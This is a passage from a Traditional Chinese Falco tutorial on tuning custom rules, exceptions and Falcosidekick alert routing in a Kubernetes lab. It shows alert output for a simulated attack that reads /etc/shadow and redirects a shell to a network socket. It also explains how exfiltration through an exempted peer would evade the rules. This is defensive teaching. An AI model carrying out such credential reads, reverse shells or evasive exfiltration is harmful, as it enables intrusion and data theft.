把這兩件事和前面的連線並排，對上兩條例外：



對照第 3、4 列和第 1、2 列：連的是同樣的 IP、port、協定，例外分不出差別，所以一樣放行。

這一次，其他預設規則有報：

```text
Warning  Read sensitive file untrusted                            proc=head  file=/etc/shadow
Notice   Redirect STDOUT/STDIN to Network Connection in Container  proc=bash  fd.sip=10.0.47.134
```


那是因為這次剛好讀了 `/etc/shadow`，又剛好把檔案描述子（fd）重導到網路 socket。換一個情況：一支本來就連著資料庫的應用被植入程式碼，把查到的資料經由被放行的對端送出去。它沒有讀敏感檔案、沒有重導 fd，規則 A 又放行，這三條規則都不會報。

所以調校一條規則時，每加一條例外，被放行的對端就不再受這條規則檢查；例外放得越寬，規則能看到的範圍就越小。要做的是把讓出去的部分寫清楚：每條例外放行了哪個 IP、port、協定，從那裡可能送出什麼，寫進例外的名字或旁邊的註解，並定期回頭檢查還需不需要。

例外裡的 IP 是寫死的，也要一起檢查。這一章最後會刪掉接收端，`known_internal_services` 這條例外指向的 ClusterIP 就沒有 Service 在用了。之後新建的 Service 可能被分配到同一個 ClusterIP，那時這條例外放行的就是那個新服務的 8080，而它從來沒有被審查過。

## 步驟 7：看接收端收到了什麼

步驟 3 打開 sidekick 之後，所有 notice 以上的告警都送到了接收端，包括調校前的誤報。先數接收端收到幾筆：

```console
$ kubectl -n falco logs deploy/webhook-receiver | grep -c RECEIVED
964
```


其中一筆規則 A 的告警，是接收端印出來的原文：

```json
{
 "uuid": "41598610-9dfc-406f-a573-639e254146ed",
 "rule": "Unexpected outbound connection from lab workload",
 "priority": "Warning",
 "time": "2026-08-06T11:18:21.921821552Z",
 "hostname": "<node-a>",
 "tags": ["", "T1071", "custom", "mitre_command_and_control", "network", "sprint2_day4"],
 "output_fields": {
   "fd.sip": "8.8.8.8", "fd.sport": 53, "fd.l4proto": "tcp",
   "proc.name": "bash",
   "container.id": "41ae0eb6f163", "container.name": "nginx",
   "k8s.pod.name": "baseline-nginx", "k8s.ns.name": "ebpf-lab"
 }
}
```


告警路徑的三段，分別對應步驟 3 圖上的證據 1、2、3：

| 段 | 證據 |
|---|---|
| 1. Falco → sidekick | sidekick 日誌的 `[DEBUG] : Falco's payload : {…}` |
| 2. sidekick → 接收端 | sidekick 日誌的 `[INFO] : Webhook - POST OK (200)` |
| **3. 接收端真的拿到了** | **接收端自己的標準輸出 `RECEIVED {…}`，964 次** |

最後一段只看接收端自己的日誌。Falco 和 sidekick 的日誌能證明告警送出去了，要證明對方收到，得看接收端。

### 964 筆裡有幾筆該看 {#how-many-to-read}

<span id="mine-7"></span>

按規則分組：

```console
   956  Unexpected outbound connection from lab workload
     3  Shell spawned by non-runtime parent in container
     2  Terminal shell in container
     2  Redirect STDOUT/STDIN to Network Connection in Container
     1  Read sensitive file untrusted
```


956 筆，也就是 99.2%，是規則 A 調校前的誤報；該看的 8 筆散在裡面。這一章是先接上路由、再調校，所以誤報全部送到了下游。實際上線時順序要反過來：先讓規則在 Falco 的標準輸出上安靜下來，再接上路由。標準輸出多幾百筆不會打擾任何人；送到下游，值班頻道會被大量訊息蓋過，呼叫器在半夜也會照樣發出通知，日誌平台也照寫入量計費。

### sidekick 多做了什麼，又多了哪些成本

Falco 自己輸出的 JSON 只有 `hostname`、`output`、`output_fields`、`priority`、`rule`、`source`、`tags`、`time` 這幾個 key。接收端收到的多了一個 `uuid`，是 sidekick 替每一筆事件產生的唯一 ID：同一筆事件送到好幾個目的地時，下游可以靠它去除重複，工單系統也可以用它連回原始事件。sidekick 另外可以把一份輸入同時送到多個目的地、每個目的地各自設 `minimumpriority`（例如 webhook 收 notice 以上，呼叫器只收 critical），而 Falco 自己的 `http_output` 只能設一個位址。這兩項是 sidekick 的設定功能，本課只接了一個 webhook 目的地，沒有實測多個目的地，也沒有驗證門檻的過濾效果。

成本方面，sidekick 多了 2 顆 pod（chart 預設 `replicaCount: 2`，見[疑難排解](#mine-6)），每顆實測約 1m CPU、13–20Mi，比 Falco 本身小一個數量級；設定多了 webhook 位址和 priority 門檻，實際環境還要放憑證。比較需要注意的是它多了一個要顧的元件：sidekick 停了，告警就送不出去，而 **Falco 一切正常、DaemonSet 全部 Ready**。這就是步驟 3 圖上的第二點：sidekick 是整條告警路徑上唯一的集中點，偵測到了卻沒人收到的情況，只會發生在這裡。

## 收工

接收端和 legit-client 只用在這一章。先把 `falco-values.yaml` 裡的 `falcosidekick.enabled` 改回 `false`，照步驟 3 的指令再 `helm upgrade` 一次，關掉 sidekick；然後刪掉兩個測試用的物件：

```console
$ kubectl delete -f legit-client.yaml
$ kubectl delete -f webhook-receiver.yaml
```

Falco 和調校後的兩條規則留在叢集上。Day 5 拿 Tetragon 對照時，Falco 這邊是「預設 25 條加這兩條自訂規則」。

## 疑難排解

### 只改規則內容，整個 DaemonSet 也重啟一遍 {#mine-1}

**症狀**：只改了規則檔（例如加一條例外），`helm upgrade` 之後每個節點上的 Falco pod 都重建了一次。

**原因**：Falco 本身會監看規則檔，改了就重新載入，但 chart 的 pod template 上有一個 annotation：

```text
templates/pod-template.tpl:
    checksum/rules: {{ include (print $.Template.BasePath "/rules-configmap.yaml") . | sha256sum }}
```


它的值是規則 ConfigMap 的 sha256。規則改一個字元，checksum 就變，pod spec 跟著變，DaemonSet 就滾動更新。滾動預設一次換一個節點（`maxUnavailable: 1`），三個節點的叢集上，只改規則內容的那次升級花了 71 秒。每個節點輪到自己時，從舊 pod 停掉到新 pod 開始比對事件之間，沒有任何 syscall 監控。這段空檔的長短可以參考 Day 3 的[「從安裝到第一筆告警」](sprint2-day3-falco-basics.md)：從 `helm install` 起算，到 Falco 掛上 probe、開始比對事件，量到的是 26 秒。整個滾動期間，`kubectl get ds falco` 一直顯示健康。節點越多，滾完一輪越久，一百個節點的叢集改一條例外，就要滾數十分鐘。

**修法**：兩種做法，各有代價：

- **直接 patch ConfigMap，不經過 helm**：Falco 監看到檔案變了會重新載入，pod 不重啟；但 Helm release 記錄的狀態跟叢集實際狀態就對不上了，下一次 `helm upgrade` 會把改動蓋掉。
- **接受滾動**：把規則變更當成一次部署來排時間，不要在處理事故的途中改規則。

### `evt.dir` 已經淘汰，規則照樣「載入成功」 {#mine-2}

**症狀**：`helm upgrade` 回報 `STATUS: deployed`，pod 全部 Running，日誌也寫著 `schema validation: ok`，可是規則可能永遠不會觸發。規則是照網路上的範例寫的，macro 長這樣，舊版 Falco 的教學與範例大多這樣寫：

```yaml
- macro: lab_outbound_connect
  condition: >
    (evt.type = connect and evt.dir = <
     and (fd.typechar = 4 or fd.typechar = 6)
     and (evt.rawres >= 0 or evt.res = EINPROGRESS))
```


**原因**：啟動日誌裡，規則檔那一行後面多了一段 warning：

```text
/etc/falco/rules.d/custom-rules.yaml: Ok, with warnings
1 Warnings:
LOAD_DEPRECATED_ITEM (Used deprecated item: field 'evt.dir'):
  due to the drop of enter events, 'evt.dir = <' always evaluates to true,
  and 'evt.dir = >' always evaluates to false. The rule expression can be
  simplified by removing the condition on 'evt.dir'
```


這一課用的是 Falco 0.44.1（chart 9.1.0 預設的版本）。Falco 0.44 的 syscall 事件來源不再送 enter 事件（系統呼叫進入時的事件），只留下返回時的事件，所以 `evt.dir = <` 永遠為真，`evt.dir = >` 永遠為假。寫 `<` 的規則剛好沒事，等於這個條件不存在；寫成 `>` 的規則永遠不會觸發，而 helm、schema 驗證、pod 狀態全部正常。網路上很多 Falco 規則範例是 0.3x 版的寫法，複製過來就會遇到。

**修法**：刪掉 `evt.dir` 那個條件（步驟 1 的規則 A 已經沒有它）。修好之後，warning 區塊整個消失：

```console
Loading rules from:
   /etc/falco/falco_rules.yaml | schema validation: ok
   /etc/falco/rules.d/custom-rules.yaml | schema validation: ok
The chosen syscall buffer dimension is: …          ← 直接接下一行,沒有 warning 區塊
```


判斷規則有沒有正常載入，看的是規則檔那一行下面有沒有 warning 區塊，而不是 helm 有沒有成功。

### sidekick 預設兩份副本、不給 resources，還會擠在同一顆節點 {#mine-6}

**症狀**：打開 Falcosidekick 時如果沒有在 values 裡補 `resources`，查它的 pod 會看到兩份副本、`PRIO` 是 0，而且排在同一個節點：

```console
$ kubectl -n falco get pods -l app.kubernetes.io/name=falcosidekick \
    -o custom-columns=NAME:.metadata.name,NODE:.spec.nodeName,PRIO:.spec.priority
falco-falcosidekick-5f96d6d856-5zd7s   <node-b>   0
falco-falcosidekick-5f96d6d856-8k4mt   <node-b>   0
```


**原因**：這是 chart 的三個預設值造成的：

1. **`replicaCount` 預設是 2**，多一倍的 pod。
2. **預設完全不給 `resources`。** 沒補的話，沒有 requests 的 pod，QoS 等級是 BestEffort（Kubernetes 依 requests 與 limits 把 pod 分成三級，BestEffort 是最低的一級），節點記憶體吃緊時最先被 OOM kill。
3. **沒有設定 pod anti-affinity**（讓同一組 pod 分散到不同節點的排程條件），兩份副本排到了同一個節點。那個節點掛了，兩份一起沒，`replicaCount: 2` 等於沒有備援。

`PRIO` 欄是 0，跟 Day 3 的[「Falco pod 被搶佔，DaemonSet 卻顯示全部就緒」](sprint2-day3-falco-basics.md#mine-1)是同一類問題，但後果不同：Falco 被踢掉，是少看到事件；sidekick 被踢掉，是事件照樣偵測到，卻沒有人收到，從 Falco 的健康狀態完全看不出來。

**修法**：自己補上 `resources`（步驟 3 的 values 已經補了），視需要調整 `replicaCount`，並加上 pod anti-affinity。這三項 chart 都沒有預設。

## 想一想

1. 同事寫了一條規則：容器連到允許清單以外的 IP 就報。他說：「我們的服務每秒才一個請求，告警量一定不大。」那個服務用 `orders.shop.svc.cluster.local` 這種完整的 Service 名稱，呼叫另一個 namespace 的服務。在他上線之前，你會提醒他先確認什麼？
2. 為了消掉誤報，有人提議在例外裡寫 `fd.snet in (10.0.0.0/8)`，一次放行整個 10 開頭的網段。照這一章的作法，這條例外放行了哪些連線？它跟直接複用預設的 `outbound` macro，結果有什麼不同？
3. 某天值班頻道一整晚沒有任何 Falco 告警，`kubectl get ds falco` 全部 Ready。你會依序檢查哪幾個地方，確認是真的沒事，還是告警沒送出來？

## 小結

這一章用 `list`、`macro`、`rule` 寫了兩條規則，補上 Day 3 找到的兩個空白：規則 A 把允許清單當成基線，規則 B 抓容器裡的程式再開的 shell，連沒有終端機的 web shell 也抓得到。規則交給 Falco 之後，要看 Falco pod 的啟動日誌確認載入，helm 成功不算數。放進一顆正常的 pod，規則 A 每分鐘報 180 筆，大部分是 `ndots:5` 和 search 清單造成的 DNS 查詢；用兩條具名的例外調到 0，代價是對那兩個對端的連線，不論做什麼都不會再被規則 A 看見。之後遇到一條很吵的規則，先把告警依對端拆開，找出放大的來源；加例外之前，先想清楚它放行了哪些對端、從那裡可能送出什麼；接上告警路由之前，先讓規則在標準輸出上安靜下來。

## 延伸閱讀

想再深入，可以從這幾份開始：

- **[規則例外（exceptions）的官方說明](https://falco.org/docs/concepts/rules/exceptions/)** —— `fields`／`comps`／`values` 三者怎麼組成一段自動接在 `condition` 後面的 `and not`，以及覆寫時 `override` 底下 `append` 與 `replace` 的差別（這裡的 `append` 是 `override` 的值，不是舊版已淘汰的 `append: true`），對應步驟 6 的調校。
- **[Pod 的 DNS 設定與 ndots](https://kubernetes.io/docs/concepts/services-networking/dns-pod-service/)** —— Kubernetes 官方文件寫明 pod 的 `search` 清單與 `options ndots:5`，步驟 4 那個六倍放大的來源。
- **[Falco 規則的覆寫與追加語法](https://falco.org/docs/concepts/rules/overriding/)** —— 同名規則怎麼整條取代、只追加條件，或只追加例外值；多個團隊共用規則時，分工就靠這一頁。
- **[Falco Helm chart 的參數表](https://github.com/falcosecurity/charts/tree/master/charts/falco)** —— `customRules` 的形狀（檔名對內容的 map）、`falcosidekick` 子 chart 的開關與預設值都在這裡。
- **[Falcosidekick 專案 README](https://github.com/falcosecurity/falcosidekick)** —— 可以轉送的完整目的地清單（七十多種），接實際環境時從這份挑。

## 下一步

Falco 的做法到這裡看完了：在使用者空間比對規則，把結果報給人看。[Day 5](sprint2-day5-tetragon-basics.md) 換 Tetragon，它的規則寫成 Kubernetes 的自訂資源，而且過濾可以在核心裡完成。今天的兩條規則留在叢集上，Day 5 的對照以「預設 25 條加 2 條自訂」為準。

---

!!! quote ""
    Falco 標誌為 Falco 專案之官方資產（CNCF artwork），此處作社群教學用途。
